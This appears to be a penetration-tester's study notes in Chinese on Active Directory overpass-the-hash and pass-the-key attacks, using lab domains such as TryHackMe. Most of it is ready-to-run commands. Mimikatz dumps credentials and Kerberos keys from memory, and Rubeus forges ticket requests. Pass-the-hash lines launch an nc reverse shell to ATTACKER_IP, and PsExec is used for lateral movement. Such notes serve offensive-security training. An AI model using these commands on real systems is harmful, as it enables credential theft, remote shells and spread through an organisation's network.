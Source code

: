 >[!WARNING]
>概念就是當本機有殘存他人的帳號跟hash，該帳號又可以登入目標機器，那就可以嘗試用殘存的帳號hash製作TGT來利用
>1. 用mimikatz取得NTLM
>2. 用mimikatz製作假票券

>[!WARNING]
>因為user在request TGT的過程中，會需要用key加密timestamp(RC4, AES128 or AES256)，所以在製作時需要注意

```
privilege::debug
sekurlsa::logonpasswords
```
```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
``` 
sekurlsa::ekeys
```
```
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
- 直接跳出一個cmd的方式
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
### TryHackMe提供的方法
- 列舉資訊`sekurlsa::ekeys`可以撈出所有key
```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```
- **If we have the RC4 hash:**
```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
- **If we have the AES128 hash:**
```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
- **If we have the AES256 hash:**
```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
>在tryhackme的範例中，最後一行指令打出來就會拿到reverse shell了
### 擴散方法
>[!NOTE]
> jen是目標用戶，也就是可以登入的用戶 ，嘗試存取\\files04之後，就代表已經拿到krbtgt了，既然拿到TGT，就代表可以存取該主機。
* 確認可以存取files04
``` cmd
net use \\files04 
klist 
```
* 利用PsExec進入主機files04
``` cmd
.\PsExec.exe \\files04 cmd
```
## Pass the Ticket
>[!WARNING]
>想定為如果本機殘存TGT/TGS，那就可以把他們拉戳來做類似pass the hash的事情
